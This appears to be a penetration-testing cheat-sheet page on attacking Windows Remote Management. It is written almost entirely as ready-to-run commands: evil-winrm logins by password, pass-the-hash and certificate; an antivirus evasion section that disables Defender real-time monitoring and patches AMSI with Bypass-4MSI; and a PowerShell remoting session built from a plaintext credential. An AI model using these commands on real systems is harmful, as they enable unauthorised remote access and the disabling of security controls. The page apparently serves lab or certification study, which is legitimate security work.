 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WinRM (5985,5986)

## Authentication

{% tabs %}
{% tab title="Password-based" %}
```bash
evil-winrm -i <ip> -u <user> -p <pass>
```
{% endtab %}

{% tab title="Pass-the-Hash" %}
```bash
evil-winrm -i <ip> -u <user> -H <hash>
```
{% endtab %}

{% tab title="Certificate & Key" %}
```bash
# -S -> SSL
evil-winrm -i 10.10.11.152 -S -k <key> -c <crt>
```
{% endtab %}
{% endtabs %}

## AMSI Bypass

{% tabs %}
{% tab title="1. Check" %}
{% code overflow="wrap" %}
```powershell
> #amsiscanbuffer
At line:1 char:1
+ #amsiscanbuffer
+ ~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.

# Try this as well
> set-mppreference —disablerealtimemonitoring $true
```
{% endcode %}
{% endtab %}

{% tab title="2. Bypass" %}
Try [AMSI.fail](https://amsi.fail/).

```powershell
> Bypass-4MSI

Info: Patching 4MSI, please be patient...
[+] Success!
```
{% endtab %}

{% tab title="3. Confirm" %}
```powershell
> #amsiscanbuffer
```
{% endtab %}
{% endtabs %}

## PowerShell Remoting

**PowerShell Remoting** by default uses **WinRM** for Cmdlets such as `Enter-PSSession`. Therefore, a user needs to be in the local group `Remote Management Users` to be a valid user for these Cmdlets. However, instead of WinRM, SSH can also be used for PowerShell remoting.

> _Creating a PowerShell remoting session via WinRM in a bind shell can cause unexpected behavior. Opt for `evil-winrm` instead._

{% code overflow="wrap" %}
```powershell
> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force

> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)

> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
whoami
clientwk220\daveadmin
```
{% endcode %}
